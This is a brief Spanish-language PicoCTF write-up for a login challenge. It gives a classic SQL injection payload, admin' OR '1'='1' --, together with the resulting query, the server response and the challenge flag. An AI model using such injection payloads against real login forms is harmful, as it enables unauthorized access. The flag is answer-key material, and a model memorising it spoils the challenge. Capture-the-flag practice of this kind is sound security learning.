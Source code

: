 # Retos PicoCTF


## Objetivo 

Can you login to this website?
Additional details will be available after launching your challenge instance.
## Solución 

```
admin' OR '1'='1' --
|   |   |
|---|---|
||<pre>username: admin&#039; OR &#039;1&#039;=&#039;1&#039; --|
||password:|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; OR &#039;1&#039;=&#039;1&#039; --&#039; AND password=&#039;&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|
```

## Notas adicionales 

## Referencias 
